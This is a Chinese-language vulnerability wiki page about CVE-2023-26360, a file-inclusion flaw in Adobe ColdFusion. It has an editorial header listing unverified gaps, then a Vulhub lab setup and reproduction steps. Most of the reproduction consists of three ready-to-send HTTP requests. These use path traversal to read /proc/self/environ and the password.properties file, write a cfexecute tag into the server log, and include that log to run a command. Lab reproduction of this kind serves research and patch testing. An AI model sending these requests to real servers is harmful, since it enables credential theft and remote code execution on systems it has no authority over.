





# Adobe ColdFusion 本地文件包含漏洞 CVE-2023-26360

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：2018U15/2021U5及此前对应分支、CFC端点开放、日志记录输入且路径可预测、CF执行权限
- 证据范围：读取environ定位安装目录、污染coldfusion-out.log再包含的链条完整；日志写入不是直接任意CFM文件上传

### 本次正文校订

- 按实际内容修正 4 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- password.properties是认证相关存储，不应不加区分称服务器明文密码
- 缺补丁版和官方公告
- 最后输出路径代码反引号未闭合；Linux实验路径不是全平台通用

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion 2018 Update 15 和 2021 Update 5 版本及以前，存在一处文件包含漏洞。攻击者可以利用该漏洞在服务器上执行任意代码。

参考链接：

- [https://xz.aliyun.com/t/13392](https://xz.aliyun.com/t/13392)

## 环境搭建

Vulhub启动一个Adobe ColdFusion 2018.0.15服务器：

```shell
docker compose up -d
```

等待一段时间后环境启动成功，访问`http://your-vps-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。




## 漏洞复现

发送如下请求即可读取文件`/proc/self/environ`：

```http
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: your-vps-ip:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 82
Content-Type: application/x-www-form-urlencoded

_variables={"_metadata":{"classname":"../../../../../../../../proc/self/environ"}}
```

可以在返回包中找到Adobe ColdFusion的根目录`/opt/coldfusion/cfusion`：




从`../../../../../../../../opt/coldfusion/cfusion/lib/password.properties`中读取服务器密码：




想要利用文件包含漏洞执行任意代码，需要先发送如下请求来写入CFM脚本：

```http
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: your-vps-ip:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 67
Content-Type: application/x-www-form-urlencoded

_variables=<cfexecute name='id' outputFile='/tmp/awesome_poc' ></cfexecute>
```

然后包含日志文件，执行该CFM代码：

```http
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: your-vps-ip:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 111
Content-Type: application/x-www-form-urlencoded

_variables={"_metadata":{"classname":"../../../../../../../../opt/coldfusion/cfusion/logs/coldfusion-out.log"}}
```




可见，`id`命令的执行结果已经被写入`/tmp/awesome_poc：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
